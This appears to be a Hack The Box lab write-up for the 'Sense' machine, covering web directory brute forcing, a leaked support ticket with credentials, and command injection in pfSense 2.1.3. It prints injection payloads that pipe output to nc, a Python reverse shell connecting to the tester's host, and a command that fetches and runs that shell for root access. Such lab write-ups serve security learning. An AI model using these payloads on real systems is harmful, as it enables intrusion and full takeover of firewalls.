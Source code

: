 ```yaml
---
layout: single
title: Sense Writeup
date: '2020-01-15 07:32:44'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-01-15-sense-writeup/sense.png
    text: "https://app.hackthebox.eu/machines/Sense"
typora-copy-images-to: ../images/posts/2020/${filename}/
---
```

An interesting box that teaches the value of thorough enumeration.…

## Enumeration

Starting with Autorecon we find that only ports 80 & 443 are open. While waiting for the web tests to complete I went to port 80 in Firefox and found I was redirected to HTTPS and that the system seemed to be a PFSense firewall.

Googling the default PFsense credentials and trying them didn't turn anything up, and some other common username/password combinations also failed. Given this is basically a security appliance it wasn't much of a surprise that the usual enumeration techniques that Autorecon runs didn't turn up anything.

Looking at ExploitDB for PFsense vulnerabilities turns up quite a few, however they generally need credentials.

At this point it's time to run some more intensive enumeration, specifically try and brute force directories and files in the webtree. Autorecon runs a light touch brute force using the Web-Content/common.txt list from [Seclists](https://github.com/danielmiessler/SecLists), but this won't always find what is needed. I started another `gobuster` with a more intensive list, looking for some common files that can be left around on a web server:

```bash
gobuster dir -u https://10.10.10.60:443/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403" -x "txt,html,php,asp,aspx,bak"
```
Given the number of extensions this took a couple of hours but turned up a couple of interesting files, including one called system-users.txt:
```
    ####Support ticket###
    
    Please create the following user
    
    username: Rohit
    password: company defaults
```
If we then try and login as Rohit:pfsense (which is the default PFsense password) it fails, but trying rohit:pfsense we manage to login.

## Exploitation

On logging in we can see that PFsense is running the 2.1.3 release. Exploitdb lists [this](https://www.exploit-db.com/exploits/43560) vulnerability which seems relevant.

To test it out we can start up Burp Suite and then set our browser to send traffic through the Burp Suite proxy. If we browse to the affected URL we can capture the request and send it to the Repeater component so we can edit it:

![Screenshot-from-2020-01-14-16-00-02](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-00-02.png)

From the CVE details we know that you can specify arbitrary shell commands by using a semicolon. We can test this is working, by sending a sleep command:


![Screenshot-from-2020-01-14-16-01-19](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-01-19.png)

If this takes 10+ seconds to return, we have command execution. As this is an HTTP request data needs to be URL Encoded, hence the + instead of a space.

Due to the way the vulnerability works, nothing is outputted to stdout and so won't appear in the results of the web request. However we can pipe the results to `nc`, which is handily installed in this case.

If we send `database=queues;whoami|nc+<ip_address>+<port>` with a listener on our machine, we can get the output of the command.

![Screenshot-from-2020-01-14-16-07-39](../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-07-39.png)

So, running as root, that's handy as we won't need to do any privilege escalation.

### Putting it all together

So, now we know we can run remote commands, lets see about getting a shell.

First we take a common Python reverse [shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and tidy it up into a script:
```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.2",9876))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
```
and save this as `exploit`.

We then start a listener on port 1234 and tell it to send the contents of the `exploit` file whenever anything connects:
```bash
    nc -lvp 1234 < exploit
```
We start another listener to catch the connections spawned by the reverse shell
```bash
    nc -lvp 9876
```
And finally we use Burp Suite to send our exploit:

`database=queues;nc+10.10.14.2+1234|python`

Which will send any data received from the connection to port 1234 (our Python reverse shell) to the Python interpreter. We need to `ctrl-c` the connection to port 1234 but after doing this we catch a root shell on 9876 which makes it trivial to grab the flags.
